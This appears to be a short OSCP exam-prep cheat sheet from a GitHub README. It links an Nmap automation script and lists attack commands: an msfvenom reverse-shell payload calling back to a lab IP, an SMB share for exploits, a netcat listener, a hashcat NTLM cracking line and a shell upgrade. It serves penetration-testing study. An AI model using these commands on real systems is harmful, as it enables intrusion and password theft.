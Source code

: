 # Offensive Security Certified Professional
## OSCP Tools and Resources for Your Journey


##### Nmap Automator. Save time on port/vuln scans:
https://github.com/21y4d/nmapAutomator




Category | Command Examples
------------ | -------------
MSFVENOM | msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.221 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe
SMB | python3 smbserver.py lab "~/OSCP/EXPLOITS/MS17-010/CLISHARE"
NETCAT | nc -nvlp 443   *(Creates a local listener)*
CRACKING | hashcat -m 1000 -a 0 --force --show --username hash.txt wordlist1.lst 
SHELL | Resolve "TERM environment variable not set":  *$ *export TERM=xterm**
SHELL | Fully interactive shell (Python): *$ python3 -c 'import pty; pty.spawn("/bin/bash")'*
